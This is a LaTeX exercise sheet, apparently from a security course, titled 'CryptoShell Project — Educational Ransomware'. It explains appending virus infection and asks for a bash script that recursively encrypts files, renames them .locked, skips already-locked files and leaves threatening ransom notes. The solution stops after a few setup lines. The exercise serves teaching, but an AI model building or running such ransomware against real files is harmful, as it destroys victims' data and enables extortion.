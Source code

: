 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Solution}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[CryptoShell Project --- Educational Ransomware]
\begin{rappel}
\medskip
\textbf{Text diagram before/after appending infection:}
\begin{lstlisting}[numbers=none,frame=none,backgroundcolor=\color{white},language={}]
BEFORE:                    AFTER:
+------------------+       +------------------+
| Host code        |       | Host code        |
| (original)       |       | (original)       |
+------------------+       +------------------+
                            | Viral code       |
                            | (appended)       |
                            +------------------+
\end{lstlisting}

\medskip
\textbf{Anti-reinfection:} A virus must avoid reinfecting an already-infected file. Strategies: marker (signature), tail comparison, execution test.
\end{rappel}

\begin{enumerate}
\item[\textbf{3a)}] Write \texttt{cryptoshell.sh} that: (1) generates a random key, (2) recursively traverses a target directory, (3) encrypts each \texttt{.txt} and \texttt{.dat} file found, (4) renames to \texttt{.locked}, (5) deposits a \texttt{RANSOM\_NOTE.txt} file in each directory containing encrypted files.

\item[\textbf{3b)}] Add an \textbf{anti-reinfection} mechanism: the script must NOT re-encrypt an already \texttt{.locked} file. Implement this check.

\item[\textbf{3c)}] The ransom note must contain: a threatening message, a unique victim identifier (randomly generated), and (fictitious) instructions. Write the \texttt{create\_ransom\_note()} function.

\item[\textbf{3d)}] \textbf{Theoretical question:} Compare the ransomware infection technique with the 3 classic virus techniques (overwriting, appending, companion). What are the fundamental similarities and differences?
\end{enumerate}

\begin{correction}

\textbf{3a+3b+3c)} The complete ransomware:
\begin{lstlisting}[title=cryptoshell.sh (phase3\_ransom.sh)]
#!/bin/bash
# CryptoShell — Phase 3: Propagation and Ransom
source xor_helper.sh
TARGET_DIR="${1:-.}"
KEY_FILE=".cryptoshell_key"
VICTIM_ID=$(head -c 8 /dev/urandom | xxd -p)


\end{lstlisting}
\end{correction}
\end{exercice}
\end{document}
